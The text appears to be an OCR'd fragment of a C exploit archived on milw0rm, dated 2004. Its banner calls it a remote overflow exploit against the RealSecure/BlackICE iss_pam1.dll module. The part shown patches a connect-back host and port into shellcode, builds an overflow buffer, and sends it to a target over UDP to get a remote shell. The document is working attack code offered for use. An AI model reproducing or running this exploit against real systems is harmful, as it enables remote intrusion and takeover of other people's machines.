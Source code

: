    *(unsigned short *)&shellcode[330] = port;
    *(unsigned int *)&shellcode[335] = cb;

    memcpy (expbuf + 637 + 4, shellcode, strlen (shellcode));
    if ((sock = udpConnect (hostName)) < 0) {
    printf ("connect failed\n");
    exit (-1);
    }

    fprintf (stderr, "# send overflow udp datas\n");
    udp_send (sock, expbuf, sizeof (expbuf) - 1);

    close (sock);
    return 0;


    }


    /*
    * just main . dude.
    */
    int main (int argc, char **argv)
    {
    int new;
    char *target = NULL;

    fprintf (stderr, "557iss_pam_exp - RealSecure / Blackice iss_pam1.dll remote overflow exploit\n - Sam\n\n");
    if (argc != 4) {
    fprintf (stderr, "%s <hostname> <listenhost> <listen port>\n", argv[0]);
    fprintf (stderr, "listenhost, port: connect back host and port\n\n");
    return -1;
    }

    target = argv[1];
    bindHost = argv[2];
    port = atoi (argv[3]);

    fprintf (stderr, "# attack remote host: %s. \n", target);
    fprintf (stderr, "# listen host: %s. \n", bindHost);
    fprintf (stderr, "# listen port: %d. \n", port);
    do_sendudp_data (target);

    fprintf (stderr, "# done.\n");

    fprintf (stderr, "# make sure we are in, dude :)\n\n");

    return 0;
    }

    // milw0rm.com [2004-03-28]
